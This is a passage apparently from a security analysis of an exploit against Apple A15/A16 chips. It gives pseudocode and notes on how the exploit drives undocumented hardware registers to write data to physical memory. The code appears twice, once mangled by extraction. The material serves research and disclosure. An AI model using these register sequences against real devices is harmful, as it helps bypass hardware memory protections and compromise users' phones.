     value = value | 0x8000000000000000

    write_qword(ctrl, read_qword(ctrl) & value)

    while ((read_qword(ctrl) & 0x8000000000000001) != 0):
        sleep(1)

def dma_init(original_value_0x206140108):

    dma_ctrl_1()
    dma_ctrl_2(False)
    dma_ctrl_3(original_value_0x206140108)

def dma_done(original_value_0x206140108):

    dma_ctrl_1()
    dma_ctrl_2(True)
    dma_ctrl_3(original_value_0x206140108)




123456789101112131415161718192021222324252627282930313233343536373839404142434445464748

def dma_ctrl_1():     ctrl = 0x206140108     value = read_qword(ctrl)    write_qword(ctrl, value | 0x8000000000000001)    sleep(1)     while ((~read_qword(ctrl) & 0x8000000000000001) != 0):        sleep(1) def dma_ctrl_2(flag):     ctrl = 0x206140008     value = read_qword(ctrl)     if (flag):         if ((value & 0x1000000000000000) == 0):            value = value | 0x1000000000000000             write_qword(ctrl, value)    else:        if ((value & 0x1000000000000000) != 0):            value = value & ~0x1000000000000000             write_qword(ctrl, value) def dma_ctrl_3(value):     ctrl = 0x206140108     value = value | 0x8000000000000000     write_qword(ctrl, read_qword(ctrl) & value)     while ((read_qword(ctrl) & 0x8000000000000001) != 0):        sleep(1) def dma_init(original_value_0x206140108):     dma_ctrl_1()    dma_ctrl_2(False)    dma_ctrl_3(original_value_0x206140108) def dma_done(original_value_0x206140108):     dma_ctrl_1()    dma_ctrl_2(True)    dma_ctrl_3(original_value_0x206140108)




Pseudocode for the usage of the 0x206140008 and 0x206140108 registers by the exploit
The register 0x206150020 is used only for Apple A15/A16 Bionic SoCs. It is set to 1 during the initialization stage of the exploit, and to its original value, during the finalization stage.
The register 0x206150040 is used to store some flags and the lower half of the destination physical address.
The last register, 0x206150048, is used for storing the data that needs to be written and the upper half of the destination physical address, bundled together with the data hash and another value (possibly a command). This hardware feature writes the data in aligned blocks of 0x40 bytes, and everything should be written to the 0x206150048 register in nine sequential writes.





if (cpuid == 0x8765EDEA):   # CPUFAMILY_ARM_EVEREST_SAWTOOTH (A16)
    i = 8
    mask = 0x7FFFFFF

elif (cpuid == 0xDA33D83D): # CPUFAMILY_ARM_AVALANCHE_BLIZZARD (A15)
    i = 8
    mask = 0x3FFFFF
